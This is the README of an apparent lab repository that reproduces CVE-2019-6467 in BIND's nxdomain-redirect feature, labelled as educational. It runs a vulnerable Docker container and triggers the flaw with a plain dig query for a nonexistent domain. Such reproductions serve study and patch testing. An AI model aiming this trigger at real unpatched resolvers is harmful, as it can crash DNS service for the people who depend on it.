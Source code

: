 # CVE-2019-6467
BIND nxdomain-redirect

For educational purposes only

![demo](imgs/cve-2019-6467.gif)

## Run

```
$ docker run --rm --name cve-2019-6467 -it -p 53:53/udp knqyf263/cve-2019-6467
```

## Exploit
Normal query

```
$ dig @127.0.0.1 nxdomain.example.com
```

`nxdomain` can be replaced by anything that means non-existent domain name. (e.g. foobar.example.com)


## Reference
- https://ftp.isc.org/isc/bind/9.12.4-P1/RELEASE-NOTES-bind-9.12.4-P1.html
- https://ftp.isc.org/isc/bind9/9.14.1/RELEASE-NOTES-bind-9.14.1.html
